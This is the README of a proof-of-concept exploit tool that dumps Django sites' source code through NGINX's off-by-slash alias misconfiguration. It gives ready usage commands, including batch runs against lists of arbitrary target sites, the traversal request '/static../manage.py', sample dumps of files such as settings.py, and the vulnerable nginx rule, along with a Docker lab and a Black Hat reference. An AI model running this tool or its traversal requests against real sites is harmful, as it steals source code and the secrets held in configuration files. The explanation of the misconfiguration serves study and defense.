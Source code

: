 # PoC: Off-by-slash Django Site Dumper

> A proof of concept to dump Django website's source code affected by NGINX's off-by-slash misconfiguration.

<p align="center"><img src="/demo.gif?raw=true"/></p>


## Installation

```bash
$ git clone https://github.com/adamyordan/offbyslash-django-dumper

$ cd offbyslash-django-dumper

$ pip install -r requirements.txt
```


## Usage
Pass target url as argument
```bash
$ python exploit.py --url http://django-site.com/
```

Or using files containing multiple target urls
```bash
$ cat targets.txt
http://django-site.com/
https://other-affected-site.org/
http://cool-website.me/

$ python exploit.py --file targets.txt
```

The result is available at `dump` directory
```
$ tree dump

dump/
└── http-django-site.com-
    ├── api
    │   ├── urls.py
    │   ├── users.py
    │   └── views.py
    ├── common
    │   └── logger.py
    ├── manage.py
    └── app
        ├── __init__.py
        ├── settings.py
        ├── urls.py
        ├── validate.py
        └── wsgi.py
```

## Explanation

This dumper works by using a local file inclusion vulnerability caused by a misconfiguration when using NGINX to serve 
static files. Equivalent curl command used by this dumper to dump local files is:
```bash
$ curl http://django-site.com/static../manage.py
```

Affected sites will return a response with status `200 OK` and body containing the source code of `manage.py` file.


This local file inclusion is caused by a slight but fatal mistake in Nginx's configuration (_Nginx off-by-slash fail_).
For example, here is a snippet of affected nginx rule:
```
location /static {
    alias /home/app/static/;
}
```

By sending a request to `http://django-site.com/static../manage.py`, Nginx matches the rule and appends the remainder 
to destination `/home/app/static/../manage.py`. Therefore serving the `manage.py` as static file.


This dumper utilize this vulnerability to automatically crawl the source code of Django sites, inferring available
source code files by using static analysis (read: pattern matching!), and (recursively?) expand source codes.


## Example Vulnerable Site

An example website is provided in this repository at directory `vulnerable-site` in Dockerfile format.

```bash
$ cd vulnerable-site
$ docker build -t tmp/vulnsite . && docker run --rm -it -p 8000:80 -d tmp/vulnsite


$ cd ..
$ python exploit.py --url http://localhost:8000/

[+] START CRAWLING: http://localhost:8000/
[+] downloading: dump/http-localhost-8000-/manage.py
[+] downloading: dump/http-localhost-8000-/app/settings.py
[+] downloading: dump/http-localhost-8000-/app/wsgi.py
[+] downloading: dump/http-localhost-8000-/app/urls.py
[+] FINISHED: http://localhost:8000/


$ tree dump/
dump/
└── http-localhost-8000-
    ├── app
    │   ├── settings.py
    │   ├── urls.py
    │   └── wsgi.py
    └── manage.py
```


## Reference
- [Blackhat USA 2018 presentation slide - by Orange Tsai](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf)
- [Nginx alias documentation](http://nginx.org/en/docs/http/ngx_http_core_module.html#alias)